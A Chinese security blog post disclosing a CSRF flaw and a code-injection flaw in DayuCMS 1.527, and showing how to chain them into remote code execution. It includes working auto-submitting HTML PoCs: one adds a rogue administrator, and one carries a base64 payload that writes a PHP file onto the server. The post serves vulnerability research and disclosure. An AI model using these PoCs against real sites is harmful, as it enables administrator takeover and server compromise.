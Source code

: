 ```yaml
---
layout: post
title: "DayuCMS 1.527 CSRF漏洞可GetShell"
---
```


# 0x00 背景

下载链接：
站长之家：<http://down.chinaz.com/soft/34205.htm>
官网：<http://www.dayucms.com/show/?id=105&page=1&siteid=1>

首先是感觉代码加固过，可能被之前的白帽子审计过，审计完才发现JoyChou早已对1.526的版本撸过一遍了，具体见：<http://www.joychou.org/index.php/web/dayucms-1-526-foreground-remote-code-execution.html>

<!-- more -->

# 0x01 CSRF

初看源码时感觉IP是无法伪造的，XSS和SQL注入方面代码当中也有一些加固。想要找找短板，于是乎来到比较容易被忽略的CSRF。首先利用管理员账号登录后台，看看在一些表单提交处是否有hidden的token，在添加管理员处用burp抓包看看：

![][1]

的确是没有的，只有一些添加的管理员信息，再到对应的代码中看看，在dayucms.php的38行，是要对应包含admin/admin.inc.php文件：

![][2]

在admin.inc.php的开头并没有对referer进行验证就开始操作对应的action：

![][3]

于是一趟下来就很愉快：

![][4]

下面简单给个PoC代码

{% highlight html %}
<!DOCTYPE html>
<html>
<head>
    <title>test</title>
</head>
<body>
    <form action="http://localhost/dayucms/dayucms.php?file=admin&action=add&roleid=1" method="post">
        <input type="hidden" name="do_submit" value="1">
        <input type="hidden" name="newadmin[roleid]" value="1">
        <input type="hidden" name="newadmin[username]" value="larry">
        <input type="hidden" name="newadmin[password]" value="larry">
        <input type="hidden" name="newadmin[category][]" value="0">
        <input type="hidden" name="newadmin[allowmultilogin]" value="1">
        <input type="hidden" name="newadmin[disabled]" value="0">
    </form>

    <script type="text/javascript">
        document.forms[0].submit();
    </script>
</body>
</html>
{% endhighlight %}

最后使用虚拟机搭建PoC来验证CSRF，结果可成功添加管理员：

![][5]

# 0x02 代码执行

本来以为就存在个CSRF，不过再耐心看看也是定位到了global.func.php的string2array函数，很明显得存在代码注入可执行任意php代码：

![][6]

可是再一查找全局调用该函数的地方，可能由于代码之前被爆过一次漏洞，发现用到的php脚本都是和后台相关联的，也就是需要登录后台才可以利用：

![][7]

所以就定位到在gather.class.php中gather对象的import方法会$data[1]字段在base64解码后传入string2array函数：

![][8]

对应得在gather.inc.php文件中对规则的导入使用import这一action，进而可以造成代码注入执行：

![][9]

在后台导入规则处传入`larry-'larry';phpinfo()的base64`编码`bGFycnk=-J2xhcnJ5JztwaHBpbmZvKCk=`后（'-'分割），即可执行php代码：

![][10]

# 0x03 结合

后台执行代码太low怎么办，那就结合呀，正好利用CSRF就可以GetShell了，原理也是相同的，如图所示：

![][11]

PoC代码如下：

{% highlight html %}
<!DOCTYPE html>
<html>
<head>
    <title>test</title>
</head>
<body>
    <form action="http://192.168.1.103/dayucms/dayucms.php?mod=gather&file=gather&action=import" method="post">
        <input type="hidden" name="do_submit" value="1">
        <input type="hidden" name="importdata" value="bGFycnk=-MTtmcHV0cyhmb3BlbihiYXNlNjRfZGVjb2RlKCdiR0Z5Y25rdWNHaHcnKSwndycpLGJhc2U2NF9kZWNvZGUoJ1BEOXdhSEFnY0dod2FXNW1ieWdwT3lBL1BnJykp">
        <input type="hidden" name="1" value="导入规则">
    </form>

    <script type="text/javascript">
        document.forms[0].submit();
    </script>
</body>
</html>
{% endhighlight %}

[1]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qpl0zn5uj20qe0a4751.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpl1d01hj20dm04gq30.jpg
[3]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpl1q4utj20do078t8z.jpg
[4]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpl257ztj20jp08zt97.jpg
[5]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpl3lyymj21100gcmzt.jpg
[6]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qpl454dwj20go04u0t1.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpl5ds21j20gf0b0t9b.jpg
[8]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qpl4xmfnj20os0cf0tg.jpg
[9]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpl5tkx1j20g606vjro.jpg
[10]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpl6jo4lj20tw0f63zp.jpg
[11]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpl7z20cj21170j541a.jpg
